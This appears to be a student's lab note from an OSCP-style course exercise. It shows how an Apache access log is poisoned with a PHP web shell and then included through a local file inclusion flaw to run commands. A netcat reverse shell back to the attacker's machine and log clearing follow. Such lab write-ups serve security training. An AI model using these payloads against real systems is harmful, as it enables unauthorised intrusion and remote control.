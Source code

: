 9.4.4.5

# 9.4.4.5
## 9.4.4.5.1. Obtain code execution through the use of the LFI attack.
Clear the log files
```plaintext
c:\Users\admin\Documents>powershell -ExecutionPolicy Bypass -File clear_logs.ps1 
```
![53f748ff1b59ba5f617fd41463031bb0.png](:/814834f99e7040949920682e9f102567)

Send a PHP payload. It will say it is a bad request, but was it? Check the Windows logs.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/9_webApplicationAttacks$ sudo nc -nv 192.168.214.10 80
[sudo] password for kali: 
(UNKNOWN) [192.168.214.10] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
HTTP/1.1 400 Bad Request
Date: Sun, 20 Sep 2020 21:58:39 GMT
Server: Apache/2.4.33 (Win32) OpenSSL/1.1.0g PHP/7.2.4
Vary: accept-language,accept-charset
Accept-Ranges: bytes
Connection: close
Content-Type: text/html; charset=utf-8
Content-Language: en
Expires: Sun, 20 Sep 2020 21:58:39 GMT
...
```

Check the Windows machine for c:\xampp\apache\logs\access.log
![9945e1f48b5c48e633e221fd0d1f0bee.png](:/d1ac0bbaa13d4ee2ac006413493c2e9d)

Attempt LFI execution
http://192.168.214.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
![61fd6f82910144f188c0ab6dce28a049.png](:/c656b56ceb014dccac620711a0670abe)


## 9.4.4.5.2. Use the code execution to obtain a full shell.
Clear the log file
```plaintext
c:\Users\admin\Documents>powershell -ExecutionPolicy Bypass -File clear_logs.ps1 
```

Open a netcat listener on Kali port 80 and type in the malicious php code
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/9_webApplicationAttacks$ sudo nc -nv 192.168.214.10 80
(UNKNOWN) [192.168.214.10] 80 (http) open
<?php echo '<pre' . shell_exec($_GET['cmd']) . '</pre>';?>
HTTP/1.1 400 Bad Request
```

Check the Windows log file (if you have access to the machine) to verify the PHP code is on the target.
```plaintext
c:\Users\admin\Documents>type c:\xampp\apache\logs\access.log                                                           192.168.119.214 - - [20/Sep/2020:22:47:42 -0700] "<?php echo '<pre' . shell_exec($_GET['cmd']) . '</pre>';?>\n" 400 980 "-" "-"   
```

Open another netcat listener on Kali, port 1337 
```plaintext
kali@kali:~$ sudo nc -lvnp 1337
listening on [any] 1337 ...
```

Send a bind shell through LFI. In this case, we use netcat. Here is the link to input into the browser.
`192.168.214.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=nc -nv 192.168.119.214 1337 -e cmd.exe`
![9b96abe67859f9edf6282cd9aa60b124.png](:/320abe3c066b4e57ba73a0072e91b961)

Notice we now have a shell
![0e4a06f063d31e437a3faa47d445b4bf.png](:/827e4ed0c01c485c9c34abfc58dcc387)

id: 2dafe391533c4c95ad82570cf9f6f51f
parent_id: 0787d5106a8f4b4db63dcd1dd1fa0c2b
created_time: 2020-10-02T21:21:43.806Z
updated_time: 2020-10-02T21:21:45.249Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T21:21:43.806Z
user_updated_time: 2020-10-02T21:21:45.249Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1